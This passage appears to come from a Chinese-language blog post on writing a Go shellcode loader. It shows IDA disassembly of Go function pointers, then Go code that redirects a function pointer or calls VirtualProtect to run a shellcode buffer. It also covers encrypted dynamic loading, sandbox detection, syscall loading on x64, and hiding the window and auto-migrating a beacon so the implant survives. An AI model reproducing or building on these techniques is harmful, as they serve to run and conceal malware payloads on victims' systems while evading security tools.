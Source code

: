 可以看到X的地址就是机器码中函数的入口地址，而first-class的函数对象则是一个指向PC table中函数入口地址的指针

IDA里看一下，把`&f`识别为了三重指针`void(***f)()`

```assembly
lea     rcx, off_4DA638  ;; off_4DA638是f函数的入口地址
mov     [rax], rcx
...
mov     rax, [rsp+60h+var_20]
mov     rdx, [rax]
mov     rax, [rdx]
call    rax


// F5
__int64 (***v2)(void);
return (**v2)();
```

搞懂这些后，如何cast the pointer就很简单了：

```go
var ptr uintptr = (uintptr)(unsafe.Pointer(&buf[0]))
*(*uintptr)(unsafe.Pointer(&f)) = (uintptr)(unsafe.Pointer(&ptr))
```

上面的做法是修改第一层指针也就是`f`本身，当然也可以修改第二层指针也就是`f`指向的函数真实入口地址，但因为第二层指针是READONLY权限，不同于`f`的READWRITE，直接运行会crash，所以还需要调用VirtualProtect修改指针的权限

```go
virtualProtect.Call(
    *(*uintptr)(unsafe.Pointer(&f)),
    uintptr(unsafe.Sizeof(**(**uintptr)(unsafe.Pointer(&f)))),
    uintptr(0x20),
    uintptr(unsafe.Pointer(&oldperm)),
)

**(**uintptr)(unsafe.Pointer(&f)) = (uintptr)(unsafe.Pointer(&buf[0]))
```

## ShellCode Loader

实现一个加载器很简单，将shellcode加密后动态加载

但问题出在，上述cast pointer的做法在x64下有概率出现内存错误（我仅会在x64下加载stageless shellcode时遇到），原因我猜是因为uintptr没有指针语义，例如`fmt.Fprint`内部buffer有可能破坏它的内存（以前遇到过一个fmt的buffer memory leak）

所以一般情况下使用x86 shellcode + pointer cast是没有问题的，在x64下为了稳还是使用syscall加载比较好

加载器还内置了检测沙盒功能，具体细节见README

***

加载生成的shellcode二进制打开后就是一个黑窗，可能还没来得及migrate process对方就关闭了。

解决的办法

+ 在`initial_beacon`中设置auto migrate，但还得连带把initial sleep设置成尽可能短
+ 添加编译选项，打开直接后台执行：`-ldflags="-H windowsgui"`
